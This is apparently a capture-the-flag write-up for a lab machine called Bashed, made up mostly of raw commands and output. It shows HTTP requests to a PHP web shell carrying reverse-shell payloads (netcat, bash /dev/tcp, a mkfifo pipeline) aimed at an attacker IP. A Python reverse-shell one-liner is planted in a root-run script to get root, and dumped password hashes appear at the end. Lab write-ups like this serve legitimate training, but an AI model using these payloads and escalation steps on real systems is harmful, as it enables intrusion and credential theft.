

# Bashed writeup

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site


I actually developed it on this exact server





```php
if (ISSET($_POST['cmd'])) {
    $output = preg_split('/[\n]/', shell_exec($_POST['cmd']." 2>&1"));
    foreach ($output as $line) {
        echo htmlentities($line, ENT_QUOTES | ENT_HTML5, 'UTF-8') . "<br>";
    }
    die();
```

POST /dev/phpbash.php HTTP/1.1
Host: 10.10.10.68
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-type: application/x-www-form-urlencoded
Content-Length: 35
Origin: http://10.10.10.68
Connection: close
Referer: http://10.10.10.68/dev/phpbash.php

cmd=nc -e /bin/bash 10.10.14.2 1234


nc: invalid option -- 'e'
This is nc from the netcat-openbsd package. An alternative nc is available
in the netcat-traditional package.
usage: nc [-46bCDdhjklnrStUuvZz] [-I length] [-i interval] [-O length]
	  [-P proxy_username] [-p source_port] [-q seconds] [-s source]
	  [-T toskeyword] [-V rtable] [-w timeout] [-X proxy_protocol]
	  [-x proxy_address[:port]] [destination] [port]


bash -i >& /dev/tcp/10.10.14.2/1234 0>&1


```
POST /dev/phpbash.php HTTP/1.1
Host: 10.10.10.68
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-type: application/x-www-form-urlencoded
Content-Length: 87
Origin: http://10.10.10.68
Connection: close
Referer: http://10.10.10.68/dev/phpbash.php


cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.2+1234+>/tmp/f
```


$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)


$ uname -a
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux


Linux kernel < 4.10.15 - Race Condition Privilege Escalation linux/local/43345.c


cat /home/arrexel/user.txt

arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash
scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash


[+] Readable *_history, .sudo_as_admin_successful, profile, bashrc, httpd.conf, .plan, .htpasswd, .gitconfig, .git-credentials, .git, .svn, .rhosts, hosts.equiv
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#read-sensitive-data
-rw-r--r-- 1 root root 2188 Aug 31  2015 /etc/bash.bashrc
-rw-r--r-- 1 root root 3771 Aug 31  2015 /etc/skel/.bashrc
-rw-r--r-- 1 root root 655 Jun 24  2016 /etc/skel/.profile
-rw-r--r-- 1 arrexel arrexel 3786 Dec  4  2017 /home/arrexel/.bashrc
-rw-r--r-- 1 arrexel arrexel 655 Dec  4  2017 /home/arrexel/.profile
-rw-r--r-- 1 arrexel arrexel 0 Dec  4  2017 /home/arrexel/.sudo_as_admin_successful
-rw-r--r-- 1 scriptmanager scriptmanager 3786 Dec  4  2017 /home/scriptmanager/.bashrc
-rw-r--r-- 1 scriptmanager scriptmanager 655 Dec  4  2017 /home/scriptmanager/.profile
-rw-r--r-- 1 root root 3106 Oct 22  2015 /usr/share/base-files/dot.bashrc
-rw-r--r-- 1 root root 870 Jul  2  2015 /usr/share/doc/adduser/examples/adduser.local.conf.examples/bash.bashrc
-rw-r--r-- 1 root root 1865 Jul  2  2015 /usr/share/doc/adduser/examples/adduser.local.conf.examples/skel/dot.bashrc


www-data@bashed:/home$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL


sudo -u scriptmanager bash
 sh linpeas.sh | tee lin.log


/usr/share/gcc-5


[+] Modified interesting files in the last 5mins (limit 100)                                                                                                              
/scripts/test.txt      
/home/scriptmanager/.gnupg/trustdb.gpg                                                                                                                                    
/home/scriptmanager/.gnupg/pubring.gpg                                                                                                                                    
/home/scriptmanager/.gnupg/gpg.conf                                                                                                                                       
/var/log/auth.log      
/var/log/syslog   


[+] Unexpected in root
/scripts               
/lost+found            
/initrd.img            
/vmlinuz               
        

[+] Interesting GROUP writable files (not in Home) (max 500)
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files
  Group scriptmanager:
/scripts


scriptmanager@bashed:/scripts$ ls -lahg
total 16K
drwxrwxr--  2 scriptmanager 4.0K Dec  4  2017 .
drwxr-xr-x 23 root          4.0K Dec  4  2017 ..
-rw-r--r--  1 scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root            12 Jan 17 03:48 test.txt


import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);


kali@kali:/opt/privesc/privilege-escalation-awesome-scripts-suite/linPEAS$ nc -lvnp 1235
listening on [any] 1235 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.68] 47906
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 


cc4f0afe3a1026d402ba10329674a8e2


arrexel:$1$mDpVXKQV$o6HkBjhl/e.S.bV96tMm6.:17504:0:99999:7:::
scriptmanager:$6$WahhM57B$rOHkWDRQpds96uWXkRCzA6b5L3wOorpe4uwn5U32yKRsMWDwKAm.RF6T81Ki/MOyo.dJ0B8Xm5/wOrLk35Nqd0:17504:0:99999:7:::